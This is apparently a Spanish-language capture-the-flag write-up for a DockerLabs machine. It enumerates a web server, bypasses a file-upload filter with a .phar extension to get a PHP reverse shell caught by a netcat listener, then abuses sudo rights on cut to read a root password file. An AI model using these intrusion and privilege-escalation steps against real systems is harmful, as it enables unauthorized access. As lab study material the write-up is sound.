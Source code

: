 #Writeups #Easy #DockerLabs

![dockerLabs.png](assets/dockerLabs.png)

Empezamos con un escaneo general:
```bash
❯ sudo nmap -sS -Pn -p- --min-rate 5000 172.17.0.2
[sudo] contraseña para dached: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-25 20:04 CEST
Nmap scan report for 172.17.0.2
Host is up (0.0000060s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE
80/tcp open  http
MAC Address: 02:42:AC:11:00:02 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 1.09 seconds
```

Viendo que solo hay un servicio http vamos a ver directamente la web y nos aparece esta web:

![dockerlabsweb.png](assets/dockerlabsweb.png)

hacemos una búsqueda de fuerza bruta con gobuster para encontrar directorios y nos muestra esto:

```zsh
❯ gobuster dir -u http://172.17.0.2 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,txt,html,js,py,xml
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,js,py,xml,php,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 275]
/.php                 (Status: 403) [Size: 275]
/index.php            (Status: 200) [Size: 8235]
/uploads              (Status: 301) [Size: 310] [--> http://172.17.0.2/uploads/]
/scripts.js           (Status: 200) [Size: 919]
/upload.php           (Status: 200) [Size: 0]
/machine.php          (Status: 200) [Size: 1361]
/.html                (Status: 403) [Size: 275]
/.php                 (Status: 403) [Size: 275]
/server-status        (Status: 403) [Size: 275]
Progress: 1543913 / 1543920 (100.00%)
===============================================================
Finished
===============================================================
```

## **/uploads :**

![dockeruploads.png](assets/dockeruploads.png)

## **/machine.php :**

![machinedockerupload.png](assets/machinedockerupload.png)

Con esto vemos que tenemos el directorio de uploads con un listado de archivos subidos al servidor vació y machine.php que es un directorio para subir archivos, con esto vamos a intentar subir una reverse shell con formato php a ver si funciona:

![nozipdockerlabs.png](assets/nozipdockerlabs.png)

Vemos que con la extensión .php da error pero vamos a probar todas las extensiones validas de php a ver si están todas sanatizadas, en HackTricks podemos ver todas estas extensiones para usar :

**PHP**: _.php_, _.php2_, _.php3_, ._php4_, ._php5_, ._php6_, ._php7_, .phps, ._phps_, ._pht_, ._phtm, .phtml_, ._pgif_, _.shtml, .htaccess, .phar, .inc, .hphp, .ctp, .module_

Podemos hacerlo manualmente una a una o automatizado desde BurpSuite, en ambos casos obtendremos que la extensión valida a usar es .phar.


![phardockerlabs.png](assets/phardockerlabs.png)


le damos a upload y :

![exitophar.png](assets/exitophar.png)

por lo que iremos al directorio de /uploads donde nos aparecerá el archivo, antes abrimos un net cat y le clickamos al archivo y obtenemos acceso:

```bash
❯ nc -lvnp 1234
listening on [any] 1234 ...


#Clickamos el .phar en el directorio /uploads


connect to [192.168.1.217] from (UNKNOWN) [172.17.0.2] 48488
Linux f07770b89658 6.5.0-13parrot1-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.5.13-1parrot1 (2023-12-19) x86_64 x86_64 x86_64 GNU/Linux
 10:52:15 up 26 min,  0 user,  load average: 0.42, 1.09, 1.81
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
bash: cannot set terminal process group (24): Inappropriate ioctl for device
bash: no job control in this shell
www-data@f07770b89658:/$ 

```

Entramos al sistema y enumeramos permisos Sudo, encontramos esto:

 ```bash
 www-data@f07770b89658:/$ sudo -l
sudo -l
Matching Defaults entries for www-data on f07770b89658:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User www-data may run the following commands on f07770b89658:
    (root) NOPASSWD: /usr/bin/cut
    (root) NOPASSWD: /usr/bin/grep
```

tenemos permisos de cut y grep con sudo, con esto en gtfobins podemos ver que podemos visualizar archivos a nivel de sudo por lo que buscaremos alguna nota o mensaje que haya en el sistema, empezamos buscando textos .txt:

```bash

www-data@f07770b89658:/$ find / -type f -name "*.txt"
find / -type f -name "*.txt"
find: '/etc/ssl/private': Permission denied
find: '/home/ubuntu': Permission denied
find: '/home/dbadmin': Permission denied
/opt/nota.txt


#Nos apareceran mas archivos con permisos denegados para acceder




www-data@f07770b89658:/$ cd /opt 
cd /opt
www-data@f07770b89658:/opt$ ls
ls
nota.txt
www-data@f07770b89658:/opt$ cat nota.txt
cat nota.txt
Protege la clave de root, se encuentra en su directorio /root/clave.txt, menos mal que nadie tiene permisos para acceder a ella.

```

Vemos que hay un txt que podemos ver en /opt asi que vemos el mensaje y dice que en root tenemos una clave.txt que no tenemos permisos para acceder a no ser que seamos root, pero con cut o grep podemos leerlo, vamos a usar el comando que nos proporciona gtfobins con nuestra ruta personalizada:

```bash
www-data@f07770b89658:/opt$ sudo cut -d "" -f1 /root/clave.txt
sudo cut -d "" -f1 /root/clave.txt
dockerlabsmolamogollon123
```

hacemos un su a root y obtenemos maximos privilegios:

![rootDockerLabs.png](assets/rootDockerLabs.png)
